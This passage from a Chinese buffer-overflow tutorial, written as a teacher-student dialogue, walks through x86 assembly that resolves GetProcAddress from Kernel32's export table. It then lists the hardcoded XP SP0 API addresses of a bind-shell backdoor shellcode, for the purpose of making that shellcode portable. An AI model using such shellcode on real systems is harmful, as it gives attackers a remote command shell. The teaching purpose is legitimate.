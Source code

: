 ```
    mov cx,[ebx+ecx*2] ;ecx = 计算出的序号值
    mov ebx,[edx+1Ch]
    add ebx,ebp ;ebx＝函数地址的起始位置，AddressOfFunction
    mov eax,[ebx+ecx*4] 
    add eax,ebp ;利用序号值，得到出 GetProcAddress 的地址
} 
```

“我们来测试一下吧！在 VC 中嵌入汇编，并单步调试，执行到最后一句时，可以发现 EAX 是 0x77E5A5FD，即得到了我们系统 XP SP0 的 GetProcAddress 函数的地址：0x77E5A5FD，如图 6－5。”

![](img/Q 版缓冲区溢出教程 185460.jpg)　　

“我们直接获得地址看看！如图 6－6，EAX 果然也是一样，XP SP0 的 GetProcAddress 函数地址就是 0x77E5A5FD！”

![](img/Q 版缓冲区溢出教程 185534.jpg)

“哇！太妙了！”大家说道。

“嗯，我们把获得 Kernel32.dll 地址部分和获得函数地址部分合起来，就可动态得到 GetProcAddress 函数的地址，而且与系统版本是无关的！”

“在动态得到了 GetProcAddress 函数的地址后，我们再使用它来动态获得其他函数的地址，这样生成的 ShellCode 就是通用的了。我们结合实际例子来应用它吧！”

# 6.1.4 通用 ShellCode 的编写——监听后门

### 6.1.4 通用 ShellCode 的编写——监听后门

“我们把以前写的双管道后门 ShellCode 改成各系统通用的版本吧！”老师说道，“我们用刚才的思路，在获得了 GetProcAddress 函数的地址后，再调用 GetProcAddress，这样获得所有要使用的函数地址后，存起来就可以了。”

大家都点点头。

老师喝了口水，说道：“看看以前的那个 ShellCode，一开始就把各函数在 XP SP0 下的地址存放了起来，所以不通用。我们修改时，只需加上一段动态获得各函数地址的代码，然后再存放就可以了。”

“具体来说，原来的实现是这样的，直接存放地址值。”

```
//原来的实现，把要用到的函数地址存起来——以下都是 XP SP0
mov eax,0x77e5727a
mov [ebp+4], eax; CreatePipe
mov eax,0x77e41bb8
mov [ebp+8], eax; CreateProcessA
mov eax,0x77e97624
mov [ebp+12], eax; PeekNamedPipe 
mov eax,0x77e59d8c
mov [ebp+16], eax; WriteFile
mov eax,0x77e58b82
mov [ebp+20], eax; ReadFile
mov eax,0x77e55cb5
mov [ebp+24], eax; ExitProcess
mov eax,0x71a241da
mov [ebp+28], eax; WSAStartup
mov eax,0x71a23c22
mov [ebp+32], eax; socket
mov eax,0x71a23ece
mov [ebp+36], eax; bind
mov eax,0x71a25de2
mov [ebp+40], eax; listen
mov eax,0x71a2868d
mov [ebp+44], eax; accept
mov eax,0x71a21af4
mov [ebp+48], eax; send
mov eax,0x71a25690
mov [ebp+52], eax; recv 
```
